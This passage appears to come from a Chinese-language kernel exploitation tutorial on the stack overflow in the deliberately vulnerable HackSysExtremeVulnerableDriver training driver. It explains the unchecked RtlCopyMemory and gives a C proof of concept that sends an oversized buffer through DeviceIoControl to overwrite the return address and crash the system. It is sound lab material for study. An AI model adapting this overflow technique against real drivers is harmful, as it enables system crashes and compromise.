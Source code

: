 漏洞位于`RtlCopyMemory((PVOID)KernelBuffer, UserBuffer, Size);`一句，其在复制时使用`UserBuffer`长度，且未进行校验，如此一来，若`UserBuffer`长度超过`KernelBuffer`长度，可造成溢出。`KernelBuffer`长度在初始化时为 0x800：

 

![](https://bbs.pediy.com/upload/attach/202106/817966_MKDMT4VXKSRVR6F.jpg)

 

下面为触发漏洞 POC：

```
#include #include #define IOCTL(Function) CTL_CODE(FILE_DEVICE_UNKNOWN, Function, METHOD_NEITHER, FILE_ANY_ACCESS)
#define HEVD_IOCTL_BUFFER_OVERFLOW_STACK                         IOCTL(0x800)
 
int main()
{
    HANDLE dev = CreateFileA("\\\\.\\HackSysExtremeVulnerableDriver",GENERIC_READ | GENERIC_WRITE,NULL,NULL,OPEN_EXISTING,NULL,NULL);
    if (dev == INVALID_HANDLE_VALUE)
    {
        printf("Failed!\n");
        system("pause");
        return -1;
    }
    printf("Done! Device Handle:0x%p\n",dev);
    CHAR* chBuffer;
    int chBufferLen = 0x824;
    chBuffer = (CHAR*)malloc(chBufferLen);
    ZeroMemory(chBuffer, chBufferLen);
    memset(chBuffer, 0x41, chBufferLen);
 
    DWORD size_returned = 0;
    BOOL is_ok = DeviceIoControl(dev, HEVD_IOCTL_BUFFER_OVERFLOW_STACK,chBuffer,chBufferLen,NULL,0,&size_returned,NULL);
    CloseHandle(dev);
    system("pause");
    return 0;
} 
```

`int chBufferLen = 0x824;`正好可以覆盖到函数返回地址：

 

![](https://bbs.pediy.com/upload/attach/202106/817966_EPDG6AKPEF2345E.jpg)

 

![](https://bbs.pediy.com/upload/attach/202106/817966_ADF8VUSB3ZJWNWZ.jpg)

 

完成覆盖，BSOD：

 

![](https://bbs.pediy.com/upload/attach/202106/817966_82PUSPX3QC38MQD.jpg)
